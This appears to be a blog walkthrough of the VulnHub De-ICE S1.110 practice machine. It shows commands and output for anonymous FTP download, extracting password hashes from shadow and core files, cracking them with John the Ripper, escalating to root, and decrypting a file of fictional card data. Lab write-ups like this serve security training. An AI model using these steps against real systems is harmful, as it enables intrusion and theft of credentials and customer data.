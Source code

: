 ```yaml
---
layout: post
title: "DE-ICE-S1.110"
date: 2015-05-10 00:01:04 +0200
comments: true
categories: [vulnhub, deice]
---
```

Image: [De-ICE: S1.110](https://www.vulnhub.com/entry/de-ice-s1110,9/)

Nmap output:
{% codeblock %}
21/tcp  open     ftp     vsftpd 2.0.4
22/tcp  filtered ssh 
80/tcp  open     http    Apache httpd 2.2.4 ((Unix) mod_ssl/2.2.4 OpenSSL/0.9.8b DAV/2)
631/tcp open     ipp     CUPS 1.1 
{% endcodeblock %}

FTP anonymous login is allowed:
{% codeblock %}
wget -r ftp://ftp@192.168.1.110:
{% endcodeblock %}

We have found a few files, but nothing particularly interesting:
{% codeblock %}
root@kali:~/DE-ICE-S1.110/192.168.1.110/download# cat ./opt/cygwin/etc/passwd
SYSTEM:*:18:544:,S-1-5-18::
Administrators:*:544:544:,S-1-5-32-544::
Administrator:unused_by_nt/2000/xp:500:513:U-Tom-PC\Administrator,S-1-5-21-1894367954-3740816113-1455894701-500:/home/Administrator:/bin/bash
Guest:unused_by_nt/2000/xp:501:513:U-Tom-PC\Guest,S-1-5-21-1894367954-3740816113-1455894701-501:/home/Guest:/bin/bash
Tom:unused_by_nt/2000/xp:1000:513:U-Tom-PC\Tom,S-1-5-21-1894367954-3740816113-1455894701-1000:/home/Tom:/bin/bash
__vmware_user__:unused_by_nt/2000/xp:1002:513:__vmware_user__,U-Tom-PC\__vmware_user__,S-1-5-21-1894367954-3740816113-1455894701-1002:/home/__vmware_user__:/bin/bash

root@kali:~/DE-ICE-S1.110# cat 192.168.1.110/download/etc/shadow
root:$1$3OF/pWTC$lvhdyl86pAEQcrvepWqpu.:12859:0:::::
bin:*:9797:0:::::
daemon:*:9797:0:::::
adm:*:9797:0:::::
lp:*:9797:0:::::
sync:*:9797:0:::::
shutdown:*:9797:0:::::
halt:*:9797:0:::::
mail:*:9797:0:::::
news:*:9797:0:::::
uucp:*:9797:0:::::
operator:*:9797:0:::::
games:*:9797:0:::::
ftp:*:9797:0:::::
smmsp:*:9797:0:::::
mysql:*:9797:0:::::
rpc:*:9797:0:::::
sshd:*:9797:0:::::
gdm:*:9797:0:::::
pop:*:9797:0:::::
nobody:*:9797:0:::::

toor             (root)
{% endcodeblock %}

More about cygwin format [here](https://cygwin.com/cygwin-ug-net/ntsec.html).

In /etc directory, there is a core file which contains password hashes:
{% codeblock %}
root@kali:~/DE-ICE-S1.110/192.168.1.110/download/etc# strings core | tail -1
root:$1$aQo/FOTu$rriwTq.pGmN3OhFe75yd30:13574:0:::::bin:*:9797:0:::::daemon:*:9797:0:::::adm:*:9797:0:::::lp:*:9797:0:::::sync:*:9797:0:::::shutdown:*:9797:0:::::halt:*:9797:0:::::mail:*:9797:0:::::news:*:9797:0:::::uucp:*:9797:0:::::operator:*:9797:0:::::games:*:9797:0:::::ftp:*:9797:0:::::smmsp:*:9797:0:::::mysql:*:9797:0:::::rpc:*:9797:0:::::sshd:*:9797:0:::::gdm:*:9797:0:::::pop:*:9797:0:::::nobody:*:9797:0:::::aadams:$1$klZ09iws$fQDiqXfQXBErilgdRyogn.:13570:0:99999:7:::bbanter:$1$1wY0b2Bt$Q6cLev2TG9eH9iIaTuFKy1:13571:0:99999:7:::ccoffee:$1$6yf/SuEu$EZ1TWxFMHE0pDXCCMQu70/:13574:0:99999:7:::
{% endcodeblock %}

After adjusting:
{% codeblock %}
root:$1$aQo/FOTu$rriwTq.pGmN3OhFe75yd30:13574:0:::::
bin:*:9797:0:::::
daemon:*:9797:0:::::
adm:*:9797:0:::::
lp:*:9797:0:::::
sync:*:9797:0:::::
shutdown:*:9797:0:::::
halt:*:9797:0:::::
mail:*:9797:0:::::
news:*:9797:0:::::
uucp:*:9797:0:::::
operator:*:9797:0:::::
games:*:9797:0:::::
ftp:*:9797:0:::::
smmsp:*:9797:0:::::
mysql:*:9797:0:::::
rpc:*:9797:0:::::
sshd:*:9797:0:::::
gdm:*:9797:0:::::
pop:*:9797:0:::::
nobody:*:9797:0:::::
aadams:$1$klZ09iws$fQDiqXfQXBErilgdRyogn.:13570:0:99999:7:::
bbanter:$1$1wY0b2Bt$Q6cLev2TG9eH9iIaTuFKy1:13571:0:99999:7:::
ccoffee:$1$6yf/SuEu$EZ1TWxFMHE0pDXCCMQu70/:13574:0:99999:7:::
{% endcodeblock %}

{% codeblock %}
$ john ~/DE-ICE-S1.110/crackme.john --wordlist="/root/darkc0de.lst"
Complexity       (root)
Zymurgy          (bbanter)
{% endcodeblock %}

We log in as user bbanter and obtain root permissions:
{% codeblock %}
bbanter@slax:/$ su root
Password: **********
root@slax:/# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy)
{% endcodeblock %}

Lastly, we check the backup file and decrypt CSV:
{% codeblock lang:bash %}
root@slax:/home/root/.save# cat copy.sh
#!/bin/sh
#encrypt files in ftp/incoming
openssl enc -aes-256-cbc -salt -in /home/ftp/incoming/$1 -out /home/root/.save/$1.enc -pass file:/etc/ssl/certs/pw
#remove old file
rm /home/ftp/incoming/$1
{% endcodeblock %}

{% codeblock %}
root@slax:/home/root/.save# cat /etc/ssl/certs/pw
d2Ews4TgaQm72C0nr5t5U9noRfdllV62speWeC410il1lfd3Cxe2RqSx5o0Of
{% endcodeblock %}

{% codeblock %}
root@slax:/home/root/.save# openssl enc -aes-256-cbc -d -in customer_account.csv.enc -pass file:/etc/ssl/certs/pw
"CustomerID","CustomerName","CCType","AccountNo","ExpDate","DelMethod"
1002,"Mozart Exercise Balls Corp.","VISA","2412225132153211","11/09","SHIP"
1003,"Brahms 4-Hands Pianos","MC","3513151542522415","07/08","SHIP"
1004,"Strauss Blue River Drinks","MC","2514351522413214","02/08","PICKUP"
1005,"Beethoven Hearing-Aid Corp.","VISA","5126391235199246","09/09","SHIP"
1006,"Mendelssohn Wedding Dresses","MC","6147032541326464","01/10","PICKUP"
1007,"Tchaikovsky Nut Importer and Supplies","VISA","4123214145321524","05/08","SHIP"
{% endcodeblock %}
